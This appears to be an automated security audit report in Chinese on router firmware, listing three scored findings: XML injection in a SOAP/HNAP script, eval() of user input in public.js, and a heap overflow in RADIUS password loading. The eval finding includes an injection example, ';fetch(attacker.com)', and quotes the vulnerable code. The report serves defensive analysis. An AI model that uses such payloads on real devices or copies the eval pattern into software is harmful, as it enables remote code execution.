 ### xml-injection-SOAPAction-aPara

- **文件路径:** `www/js/SOAP/SOAPAction.js`
- **位置:** `www/js/SOAPAction.js:0`
- **类型:** network_input
- **综合优先级分数:** **9.05**
- **风险等级:** 9.0
- **置信度:** 9.5
- **触发可能性:** 8.5
- **查询相关性:** N/A
- **阶段:** N/A
- **描述:** XML注入漏洞：外部可控的aPara对象属性值未经任何过滤或编码直接拼接进SOAP请求体。攻击者可通过控制aPara对象的属性值注入恶意XML标签，破坏XML结构或触发后端解析漏洞。触发条件：当调用sendSOAPAction(aSoapAction, aPara)函数且aPara包含特殊XML字符（如<、>、&）时。结合设备HNAP接口实现，可能造成远程代码执行或敏感信息泄露。
- **关键词:** aPara, createValueBody, createActionBody, sendSOAPAction, SOAP_NAMESPACE, /HNAP1/

---
### network_input-publicjs-eval_rce

- **文件路径:** `wa_www/public.js`
- **位置:** `public.js:88`
- **类型:** network_input
- **综合优先级分数:** **9.0**
- **风险等级:** 9.5
- **置信度:** 9.5
- **触发可能性:** 7.0
- **查询相关性:** 9.0
- **阶段:** N/A
- **描述:** eval函数直接执行用户输入的'userExpression'（第88行）。攻击者通过提交恶意表单（如';fetch(attacker.com)'）可触发远程代码执行。输入来自calcInput字段，无任何消毒或沙箱隔离。
- **代码片段:**
  ```
  const userExpression = document.getElementById('calcInput').value;
  const result = eval(userExpression);
  ```
- **关键词:** userExpression, calcInput.value, eval, calculateResult
- **备注:** 需检查是否受CSP策略限制

---
### configuration_load-auth-lib1x_radius_overflow

- **文件路径:** `bin/auth`
- **位置:** `auth:0x0040adc8 sym.lib1x_load_config`
- **类型:** configuration_load
- **综合优先级分数:** **8.95**
- **风险等级:** 9.0
- **置信度:** 9.5
- **触发可能性:** 8.0
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** RADIUS密码处理存在堆溢出漏洞：lib1x_load_config分配64字节缓冲区(auStack_b4)存储rsPassword/accountRsPassword等凭证，但复制时未验证输入长度。触发条件：篡改配置文件注入超长密码。边界检查：仅依赖固定0x40分配，无动态校验。潜在影响：堆内存破坏实现RCE，同时污染存储的密码长度值(param_1+0x9c)。
- **代码片段:**
  ```
  (**(loc._gp + -0x7cf4))(*(param_1 + 0x90),auStack_b4,uVar2);
  ```
- **关键词:** rsPassword, accountRsPassword, auStack_b4, param_1 + 0x90, param_1 + 0x9c

---